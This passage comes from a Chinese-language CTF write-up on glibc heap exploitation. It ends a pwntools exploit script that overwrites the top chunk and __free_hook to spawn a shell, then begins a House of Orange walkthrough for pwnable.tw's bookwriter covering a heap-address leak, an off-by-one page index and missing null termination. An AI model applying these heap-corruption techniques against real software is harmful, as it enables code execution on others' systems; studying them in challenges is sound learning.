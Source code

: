     #gdb.attach(io)
    edit(4,p64(top_addr-0x10)+'\n')
    add(0x30,'/bin/sh\x00')#6
    
    add(0x30,p64(0xdeadbeef)+p64(fake_size-1))
    
    #gdb.attach(io)
    
    add(free_hook-top_addr-0x10,'F'*0x10)#7
    
    delete(6)
    #gdb.attach(io)
    io.interactive()

***8.houseoforange***
由于最近做到了一道很恶心的题目，导致我对于堆的一些理解认知产生了怀疑。于是决定补习一下一些堆的高级利用方法
题目来自于pwnable.tw的bookwriter
源程序是很典型的表单程序，唯一的特殊之处在于没有free函数，所以利用方式不同于以往
漏洞点有以下几个地方：
1.author变量与存储堆地址的指针列表相连，在我们打印出author信息的时候会将堆地址泄露

    bss:0000000000602060 author          db    ? ;
    .
    .
    .
    bss:00000000006020A0 addrlist        db ?

2.add函数对于下标的检查有误

     for ( i = 0; ; ++i )                          // max 8
      {
        if ( i > 8 )
          return puts("You can't add new page anymore!");
        if ( !addrlist[i] )
          break;
      }

我们在可以看见下标可以为8，而addrlist大小为8，这就意味着我们可以多输入一个page，数组越界。

    bss:00000000006020A0 addrlist        db ? 
    .
    .
    .
    bss:00000000006020E0 lenlist         dq ?     
这样我们就可以把page[0]的长度改写为一个堆地址值，这样在我们edit的时候就可以利用他的长度来覆写之后的堆块信息，也就是堆溢出。
3.input函数对于字符串的处理

    __int64 __fastcall get_input(__int64 ptr, unsigned int len)
    {
      unsigned int v3; // [rsp+1Ch] [rbp-4h]
    
      v3 = _read_chk(0LL, ptr, len, len);
      if ( (v3 & 0x80000000) != 0 )
      {
        puts("read error");
        exit(1);
      }
      if ( *(_BYTE *)((signed int)v3 - 1LL + ptr) == '\n' )// no \x00 leak
        *(_BYTE *)((signed int)v3 - 1LL + ptr) = 0;
      return v3;
    }
这里可以看到，如果我们输入的字符串长度为len的话，结尾不会以\x00做截断，这样就会导致leak
（他只是判断了最后一位是否为\n，如果是的话就换成0）
4.edit函数
